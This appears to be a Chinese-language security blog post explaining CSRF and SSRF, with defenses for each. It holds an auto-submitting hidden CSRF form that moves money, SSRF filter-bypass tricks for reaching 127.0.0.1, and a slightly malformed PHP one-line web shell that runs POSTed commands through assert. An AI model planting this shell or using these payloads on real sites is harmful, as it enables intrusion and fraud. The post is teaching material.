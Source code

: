 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: CSRF与SSRF原理
---
```

## Csrf跨站请求伪造
   Csrf利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。   

CSRF攻击攻击原理及过程如下：  
       1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A;    
       2.在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;    
       3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B;  
       4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;      
       5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。   


例如访问的恶意web页面为：


	<img src="恶意链接地址" border="0" style="display:none;"/> 


	<h1>404<h1> 


	<h2>file not found.<h2> 
    

若网站使用post发送请求，那么攻击方可以修改页面为：

      <html> 
        <head> 
          <script type="text/javascript"> 
            function steal() 
            { 
                     iframe = document.frames["steal"]; 
                     iframe.document.Submit("transfer"); 
            } 
          </script> 
        </head> 

        <body onload="steal()"> 
          <iframe name="steal" display="none"> 
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php"> 
              <input type="hidden" name="toBankId" value="11"> 
              <input type="hidden" name="money" value="1000"> 
            </form> 
          </iframe> 
        </body> 
      </html> 


csrf防御策略:  
1.验证 HTTP Referer 字段  
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。  
2.在请求地址中添加 token 并验证  
 	CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。  
3.设置跨域权限    	
4.提交验证码      
	在表单中添加一个随机的数字或字母验证码。通过强制用户和应用进行交互。来有效地遏制CSRF攻击。

## SSRF服务端请求伪造
  SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）应用需要调用其他服务器的资源，需要传入一个目标服务器地址去请求，但是没有对目标地址做过滤与限制，导致攻击者可借助服务端实现访问其本无权访问的URL。攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，所以SSRF的一大利用是探测内网端口开放信息。  

ssrf出现在：  
1.通过url分享网页内容   
2.转码服务   
3.在线翻译   
4.图片的加载与下载   
5.在url关键字寻找：share,wap,url,link,src,sourse,target,u,3g,display,sourceURl,imgurl   

例如：  
www.xxx.com/a.php?image=http://www.abc.com/1.jpg  
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？  
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码  

当访问的内网地址http://127.0.0.1/ 被过滤的时候，可以尝试一下几种方式:        
1.@  
http://abc@127.0.0.1  
2.添加端口号    
http://127.0.0.1:8080    
3.短地址  
http://dwz.cn/11SMa  
4.ip地址转换成进制来访问  
115.239.210.26 = 16373751032   

 外网利用过程：   
1.在b站上传一句话木马  

    <?php 
    $s=$_POST[‘url’] 
    $s=file_get_contents($s) 
    $s($_POST[‘cmd’]); 
    > 

2.在a站保存一个txt文件，内容为 assert  
3.访问b站的木马，上传url=a站ip的txt文件将assert读取，脚本解释器将它解释为assert函数，&cmd={phpinfo();可以继续添加命令system("ipconfig")} 让assert执行cmd实现获取php信息的木马执行。（//这就是利用服务端远程文件读取）

ssrf防御策略：    
1.过滤放回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。  
2.统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。  
3.限制请求的端口为http常用的端口，比如，80,443,8080,8090。  
4.黑名单内网IP。避免应用被用来获取内网数据，攻击内网。  
5.禁用不需要的协议。仅仅允许http和https请求。  
